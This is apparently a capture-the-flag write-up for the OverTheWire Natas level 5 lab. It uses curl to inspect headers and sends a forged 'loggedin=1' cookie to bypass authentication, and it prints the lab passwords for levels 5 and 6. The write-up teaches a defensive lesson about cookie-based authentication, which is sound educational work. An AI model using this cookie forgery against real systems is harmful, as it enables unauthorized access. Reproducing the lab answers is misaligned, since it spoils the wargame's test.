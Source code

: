 ```yaml
---
category: natas
title: Natas5 - HTTP Cookie
---
```

website: http://natas5.natas.labs.overthewire.org/ (password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)

After going to natas5 link, it said <small>Access disallowed. You are not logged in</small>. Obviously this is related with web authentication. The HTML itself didn't provide us much info, so again I went to explore the HTTP headers. To see what the headers returned in an HTTP response, I used "curl -i". The result is given below:

```console
$ curl -i http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
HTTP/1.1 200 OK
Date: Sat, 20 Jul 2019 00:08:50 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Length: 855
Content-Type: text/html; charset=UTF-8

<html>
<head>
... ...              <== skipped
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
```

As you can see, it has a header "Set-Cookie", which means that this website is using cookie. Moreover, the cookie reads as "loggedin=0". This is a good sign that this website uses cookie for authentication and authorization. Thus, I can explicitly specify my cookie in my HTTP request to impersonate an authorized user. The following HTTP request does the trick:

```console
$ curl -H "cookie: loggedin=1" http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
<html>
<head>
... ...              <== skipped
<div id="content">
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
</body>
</html>
```

We now have the password for the next level.

<strong>CONCLUSION</strong>

Cookies can be used to keep track of users. However, they can be manipulated by attackers. Thus, be careful if you are using cookies for authentication because it can be hijacked.

More details about cookie can be found here:
- <a href="https://en.wikipedia.org/wiki/HTTP_cookie">HTTP cookie</a>
- <a href="https://swagger.io/docs/specification/authentication/cookie-authentication/">Cookie Authentication</a>
- <a href="https://www.freecodecamp.org/news/session-hijacking-and-how-to-stop-it-711e3683d1ac/">What is session hijacking and how you can stop it</a>
